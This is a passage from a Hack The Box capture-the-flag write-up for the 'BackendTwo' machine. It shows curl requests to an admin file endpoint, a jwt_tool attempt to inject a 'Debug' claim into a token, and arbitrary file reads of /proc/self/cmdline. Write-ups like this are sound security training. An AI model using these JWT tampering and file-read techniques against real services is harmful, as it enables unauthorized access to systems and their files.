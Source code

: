 There is endpoint which can write files on the server, so I try this.
The request body is sent as JSON in the format `{"file": "string"}`.

```console
root@kali:~/htb/Machines/BackendTwo# curl -X POST -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/admin/file/dGVzdC50eHQ= -H "Content-Type: application/json" -d '{"file":"a"}'
{"detail":"Debug key missing from JWT"}
```

An error was returned that JWT does not have a Debug key.

I don't know if the payload is being verified on the server side, but I try to rewrite the JWT payload and request again.

```console
root@kali:~/htb/Machines/BackendTwo# python3 ~/tools/jwt_tool/jwt_tool.py $TOKEN -I -pc Debug -pv true
(snip)
Original JWT:

jwttool_02fb5855471116ce6a093baae327cc5a - Injected token with unchanged signature
[+] eyJ(snip)4nk

root@kali:~/htb/Machines/BackendTwo# TOKEN=eyJ(snip)4nk

root@kali:~/htb/Machines/BackendTwo# curl -X POST -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/admin/file/dGVzdC50eHQ= -H "Content-Type: application/json" -d '{"file":"a"}'
{"detail":"Could not validate credentials"}
```

An error was returned indicating that the authentication information could not be verified.
I think the JWT is correctly verified on the server side.

Since I can get the file, I may be able to create a JWT in kali machine if I can see the JWT encoding process in this API.
I try to get the source code using the GET `/api/v1/admin/file/{file_name}` endpoint.

### Enumeration /proc/{pid}/cmdline

At this time, specific files can be gotten, but directory listings are not available.
Not knowing what directory the source code is located in, I look at the process of what command the web application is running.

```console
root@kali:~/htb/Machines/BackendTwo# python3 file.py get_file -f /proc/self/cmdline
/usr/bin/python3-cfrom multiprocessing.spawn import spawn_main; spawn_main(tracker_fd=5, pipe_handle=7)--multiprocessing-fork
```

There is no information about the source code location.
It seems possible to look at files under `/proc/`, so I will enumerate `/proc/{pid}/cmdline`.

To save execution time, I can use Python's [ThreadPoolExecutor](https://docs.python.org/3/library/concurrent.futures.html#concurrent.futures.ThreadPoolExecutor) to get `/proc/{pid}/cmdline`.

<details><summary>part of file.py</summary></details>
